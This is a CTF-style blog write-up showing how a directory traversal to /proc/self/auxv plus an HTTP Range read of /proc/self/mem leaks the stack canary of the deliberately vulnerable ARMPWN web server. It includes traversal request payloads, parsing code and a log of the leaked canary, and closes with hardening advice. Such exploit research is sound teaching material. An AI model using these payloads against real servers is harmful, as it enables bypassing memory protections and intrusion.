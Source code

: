 +++
title = "ARMPWN redux: canary reloaded"
authors = ["hugsy"]
date = 2017-01-24T00:00:00Z
updated = 2017-01-24T00:00:00Z
aliases = ["/posts/2017/01/24/armpwn-redux-canary-reloaded.html"]

[taxonomies]
tags = ["linux","pwn","arm","ssp","armpwn"]
categories = ["ctf"]

[extra]
header_img = "img/canary-header.png"
+++

>
> __TL;DR__: It is possible to defeat stack canary protection when a binary is vulnerable to
> arbitrary file read.
>

# Intro

First of, Happy New Year 2017 ✌

Recently, I've decided to thoroughly investigate the "_Stack Smashing
Protection_" (SSP) on recent Linux and recent Glibc. This research has led to a
blog post available on [elttam R&D blog](https://www.elttam.com.au/blog). Among
many other things, I've found that canaries built with recent glibc may have
their values leaked, should the program be also vulnerable to an arbitrary file
read access, and if it exposes its
[Auxiliary Vector](https://www.elttam.com.au/blog/playing-with-canaries#auxiliary-vector) via
the `procfs` structure.

All the details regarding the following attack on the canary are explained in
this blog post, so I will assume that you are familiar with it. If you're not:

  * the full article is [here](https://www.elttam.com.au/blog/playing-with-canaries)
  * the code repository is [there](https://github.com/elttam/canary-fun)

In the article, I imagined the attack scenario would apply perfectly well to a
Web or FTP server, and would occur following those steps:

  1. dump `/proc/self/auxv` to get the `AT_RANDOM` location
  2. read `/proc/self/mem` and force an `lseek` access to reach the location found
     above via
     the [HTTP header Range](https://tools.ietf.org/html/rfc7233#page-8) (for
     instance `Range: bytes=<0xAT_RANDOM_LOCATION>-<0xAT_RANDOM_LOCATION+16>`)
  3. Truncate the received buffer to `sizeof(register)`
  4. Nullify the last byte (`result &= ~0xff`)

That was the theory, which made perfect sense, but I wanted a practice
case.

Earlier this year, I [had some fun with ARMPWN](/posts/2016/06/13/armpwn-challenge-write-up.html), a vulnerable web server
created by  {{ twitter(user="5aelo") }} to practice
exploitation on ARM, so I have decided to use it for a practical, yet very
realistic exploit case.

You can download:

  - [the new websrv.c here](https://gist.github.com/00d74ecac86297efc6772e415f307176)
  - [or simply the patch here](https://gist.github.com/c2dbc3e3c11836dcebf53a2189f35976)


## Patch analysis

This cheap patch provides to the "new" `websrv` the (pseudo-)capability to
[parse the HTTP Range header](https://gist.github.com/hugsy/00d74ecac86297efc6772e415f307176#file-websrv-c-L181-L201)
provided by the client. This is basically how modern Web servers (Apache, nginx)
treat this header.

```c
unsigned long start, end;
char *ptr;
int r;

start = end = 0;
ptr = get_range_header(request, len);
if (ptr){
    if(get_ranges_from_header(ptr, &start, &end)==0){
        if (start && end){
            printf("%s:%d reading range of file '%s' from %u-%u\n", inet_ntoa(client.sin_addr), htons(client.sin_port), file, start, end);
            if (lseek(fileno(f), start, SEEK_SET)==-1){
                perror("lseek() failed:");
[...]
```

In the earlier exploit, we had exploited the Directory Traversal to dump the
process memory mapping (via `/proc/self/maps`) and defeat PIE & ASLR. To crush
SSP protection, we managed to get the canary value by brute-forcing it, which is
very noisy (the canary can be found in max. of 4*256=1024 HTTP requests on a
32-bit architecture, 2048 on 64-bit) and risky (the memory corruption may alert
of an on-going attack).

But now we can actually do much better: we have all the conditions
mentioned earlier to exfiltrate the canary's value, thanks to the ELF Auxiliary
Vector.


## Exploitation

This approach is a lot more stable and stealthier than canary brute-forcing,
since we don't rely on any memory corruption/process crash to determine the
valid bytes of the canary
[as we did before](/2016/06/12/armpwn-challenge#leaking-the-canary).


### Find AT_RANDOM from the Auxiliary Vector

So first, we need to read the process _Auxiliary Vector_ exposed via `procfs`.

```python
s.send("GET ../../../../../proc/self/auxv HTTP/1.0\r\n\r\n")
```

And then parse the result:

```python
AT_RANDOM = 25
[...]
data = s.recv(1024)
for i in range(0, len(data), 8):
    code = struct.unpack("<I", data[i:i+4])[0]
    if code==AT_RANDOM:
        at_random_address = struct.unpack("<I", data[i+4:i+8])[0]
        break
```

If we did things correctly, this will store in the variable `at_random_address`
the address of the 16 random bytes provided by the kernel, used to create the
canary.


### (l)seeking the process memory via the HTTP Range header

Since `procfs` also exposes the process memory, we can use `/proc/<pid>/mem` to
seek to the address we've found at the step above.

```python
m = "GET ../../../../../proc/self/mem HTTP/1.0\r\n"
m+= "Range: bytes={:d}-{:d}\r\n\r\n".format(at_random_address,at_random_address+16)
s.send(m)
```

{% note(type="warning") %}
`yama/ptrace_scope` must be set to 0 to be able to read the process
memory.
{% end %}

### Fire!

The final exploitation script which combines all the steps described above can
be found [here](https://gist.github.com/hugsy/a462b398721bfb7e6bbd678b6d0e852b).

```bash
$ python armpwn_leak_canary.py
[+] Connected to 'rpi2-1:80'
[+] Leaking AUVX
[+] AT_RANDOM=0xbe8409c5
[+] Forging HTTP request using Range
[+] Canary is 0xd998d300
```

To be we fetched the correct value for the canary of the remote process, we can use [this script](https://github.com/elttam/canary-fun/blob/master/read_canary_from_pid.py) locally to compare the values for the canary:

{{ img(src="https://i.imgur.com/IWpuMIy.png" title="image_alt") }}



## Conclusion

This exploitation shows a different way to leak the canary value, and therefore defeat the SSP protection. As you may have noticed, since this attack does not rely on memory corruption, it is extremely reliable. And it is also much faster: the canary brute-force can take up 4x256 (or resp. 8x256 for 64-bits) requests to determine, where this approach found the same value with only 2 requests.

This illustrates once again the need to maintain a system as hardened as possible, especially on production systems, since restricting `ptrace`, or refusing to expose AUXV like GrSec does, would defeat this attack.

Thanks for reading, and as usual drop me a line on IRC/Twitter/email for any question/comment ☕
